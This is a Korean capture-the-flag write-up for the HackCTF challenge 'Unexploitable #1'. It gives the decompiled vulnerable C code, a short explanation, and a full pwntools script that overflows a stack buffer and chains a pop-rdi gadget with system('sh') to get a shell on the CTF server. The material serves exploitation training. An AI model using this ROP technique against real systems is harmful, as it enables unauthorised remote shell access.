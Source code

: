 ```yaml
---
title: "[HackCTF]Unexploitable #1"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
published: false
---
```


그냥 일종의 trick문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
```

system 가젯을 쓸 수 있다. 근데 fflush가 존재한다. 이거 그냥 Layer7 CTF talmo_party~! 문제에서 나왔던거랑 똑같다. objdump -h 로 .dynstr 위치 가져와서 fflush에서 sh만 가져와서 system함수 인자로 넘겨주면 된다. 

![](https://user-images.githubusercontent.com/32904385/71452273-c2987280-27c6-11ea-9071-3ea61a6d2db8.png) 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
e = ELF('./Unexploitable_1')
#p = process('./Unexploitable_1')
p = remote('ctf.j0n9hyun.xyz',3023)

sh = 0x4003bf
prdi = 0x00000000004007d3 # pop rdi ; ret

payload = ''
payload += '\x90' * 0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(sh)
payload += p64(e.plt['system'])
p.sendlineafter('!\n',payload)

p.interactive()
```


